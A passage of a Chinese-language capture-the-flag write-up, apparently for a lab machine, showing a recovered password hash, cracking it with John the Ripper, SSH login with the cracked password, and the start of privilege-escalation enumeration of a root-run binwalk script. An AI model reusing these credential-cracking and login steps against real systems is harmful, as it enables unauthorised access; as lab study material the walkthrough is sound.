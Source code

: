 找到用戶憑證：

```
emily:$2y$10$OBYVjDFCPvGj9E9Y1bq9oOmUbE3HQ6cBUwz.kgGqFZ8w7x5TYZrFu
```

### 破解密碼

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# emily:abigchonkyboi123
```

### SSH 登入

```bash
ssh emily@10.10.11.219
# Password: abigchonkyboi123
```

取得 user flag：

```bash
cat ~/user.txt
```

## 權限提升

### 系統枚舉

檢查運行的進程：

```bash
ps aux
```

發現一個由 root 運行的腳本：

```
root   /usr/sbin/malwarescan.sh
```

### 腳本分析

```bash
cat /usr/sbin/malwarescan.sh
```

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/local/bin/binwalk -e "$1" -C /tmp/extracted

if [[ "$?" -ne "0" ]]; then
    rm -rf /tmp/extracted
fi
```
